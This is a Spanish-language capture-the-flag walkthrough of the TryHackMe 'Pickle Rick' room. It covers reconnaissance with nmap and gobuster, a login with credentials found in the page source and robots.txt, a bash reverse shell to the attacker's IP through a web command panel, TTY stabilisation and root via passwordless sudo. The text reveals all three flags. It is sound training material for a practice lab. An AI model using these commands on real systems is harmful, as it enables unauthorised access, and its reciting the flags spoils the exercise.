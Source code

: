 # Pickle Rick

![image.png](./Imagenes
/Imagenes_PickleRick/image.png)

Maquinas que vamos a utilizar Kali Llinux y Pickle Rick  [https://tryhackme.com/room/picklerick](./Imagenes
/Imagenes_PickleRick/https://tryhackme.com/room/picklerick)

- Vamos a mirar nuestra IP
    
    ```bash
    ifconfig
    ```
    
    ![image.png](./Imagenes
/Imagenes_PickleRick/image%201.png)
    
    En este caso como estamos en un VPN nuestra Ip esta en el interface tun0: IP : **10.21.203.172**
    

- La IP de la maquina victima es: **10.10.214.144**
    
    ![image.png](./Imagenes
/Imagenes_PickleRick/image%202.png)
    

---

```bash
sudo nmap -p- -sS -sV --min-rate=5000 -n -vvv -Pn 10.10.214.144
```

![image.png](./Imagenes
/Imagenes_PickleRick/image%203.png)

- Vamos a ver lo que esta corriendo en el puerto 80 atraves del navegador web.
    
    ![image.png](./Imagenes
/Imagenes_PickleRick/image%204.png)
    
    - Inspeccionamos el código fuente de la web `CTRL+U`
        
        ![image.png](./Imagenes
/Imagenes_PickleRick/image%205.png)
        
        Tenemos nuestra primera posible pista. un nombre de usuario:  `R1ckRul3s`
        

- Listamos directorios con Gobuster y buscamos posibles archivos con distintas extensiones.
    
    ```bash
    gobuster dir -u [http://10.10.214.144/](./Imagenes
/Imagenes_PickleRick/http://10.10.214.144/) -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
    ```
    
    ![image.png](./Imagenes
/Imagenes_PickleRick/image%206.png)
    
    Encontramos una posible ruta donde probar el usuario que hemos encontrado así como el archivo robots.txt el cual vamos a mirar su contenido.
    
    - Contenido del robots.txt
        
        ![image.png](./Imagenes
/Imagenes_PickleRick/image%207.png)
        
        Nos lo apuntamos por si es alguna contraseña o nos pueda servir para algo mas adelante. `Wubbalubbadubdub`
        
    - Vamos a la pagina de Login.php y probamos el usuario y la posible contraseña que hemos encontrado
        
        ![image.png](./Imagenes
/Imagenes_PickleRick/image%208.png)
        
    - Nos encontramos una barra de comandos que responde a comandos de Linux aunque no a todos. Hacemos un `ls`  y vemos varios archivos de texto que puede ser interesantes.
        
        ![image.png](./Imagenes
/Imagenes_PickleRick/image%209.png)
        
    
    - Escribimos `less Sup3rS3cretPickl3Ingred.txt`
        
        ![image.png](./Imagenes
/Imagenes_PickleRick/image%2010.png)
        
         Ya tenemos la primera Flag: `mr. meeseek hair`
        
        NOTA: El archivo clue.txt no contenía nada interesante.
        
- Aprovechando que acepta comando vamos a intentar introducir un código para crear un reverse Shell.
    - Nos vamos a la web: https://www.revshells.com/
        
        ![image.png](./Imagenes
/Imagenes_PickleRick/image%2011.png)
        
        Obtenemos esta reverse Shell **`sh** -i >& /dev/tcp/**10.21.203.172**/**443** 0>&1` pero debemos adaptarla para que nos la coja correctamente añadiendo al principio `bash -c` y la revershell es importante ponerlo entre comillas rectas `" "`.
        
        `bash -c "**sh** -i >& /dev/tcp/**10.21.203.172**/**443** 0>&1"`
        
    - En un terminal nos ponemos a la escucha en el puerto 443 con netcat.
        
        ```bash
        sudo nc -nlvp 443  
        ```
        
        ![image.png](./Imagenes
/Imagenes_PickleRick/image%2012.png)
        
    - Lanzamos el comando de la Reverse Shell
        
        ![image.png](./Imagenes
/Imagenes_PickleRick/image%2013.png)
        
        Obtenemos una conexio
        
        ![image.png](./Imagenes
/Imagenes_PickleRick/image%2014.png)
        

---

### Vamos a empezar el tratamiento de la TTY .

Nos colocamos en la terminal de la maquina victima.

- Escribimos el siguiente comando  y veremos que adquirimos un prompt.
    
    `script /dev/null -c bash`
    
- Hacemos un **`CTRL+Z`**

- Escribimos a continuación.
    
    `stty raw -echo; fg`
    

- Escribimos `reset xterm` . Es posible que no se muestre cuando lo escribimos pero aun así lo escribimos y pulsamos Enter. Y nos aparecerá la siguiente pantalla.

- Por ultimo tenemos que exportar 2 variables. escribimos lo siguiente.
    
    `export TERM=xterm`
    
    `export SHELL=bash`
    
    Con esto ya abrimos estabilizado el terminal y ya nos aceptaría los comandos que antes no lo hacia.
    

---

- Nos movemos al directorio raíz y desde hay vamos investigando. en este caso voy al directorio `home`
    - `cd /`
        
        `cd home`
        
        `ls -la`
        
        ![image.png](./Imagenes
/Imagenes_PickleRick/image%2015.png)
        

- Miramos dentro de la carpeta rick
    
    `cd rick/`
    
    `ls -la`
    
    ![image.png](./Imagenes
/Imagenes_PickleRick/image%2016.png)
    

- Miramos el contenido del archivo
    
    `cat 'second ingredients’`
    
    ![image.png](./Imagenes
/Imagenes_PickleRick/image%2017.png)
    
    Ya tenemos la segunda Flag: `1 jerry tear`
    

---

Vamos a intentar escalar privilegios con Sudo -l

- `sudo -l`
    
    ![image.png](./Imagenes
/Imagenes_PickleRick/image%2018.png)
    
    Vemos que podemos ser root sin necesidad de contraseña.
    
    `sudo su`
    
    `whoami`
    
    ![image.png](./Imagenes
/Imagenes_PickleRick/image%2019.png)
    
- Seguimos investigando y vamos a la carpeta root
    
    `cd root`
    
    `ls -la`
    
    ![image.png](./Imagenes
/Imagenes_PickleRick/image%2020.png)
    

- Miramos el contenido del archivo 3rd.txt
    
    `cat 3rd.txt` 
    
    ![image.png](./Imagenes
/Imagenes_PickleRick/image%2021.png)
    
    Ya tenemos la tercera Flag: `fleeb juice`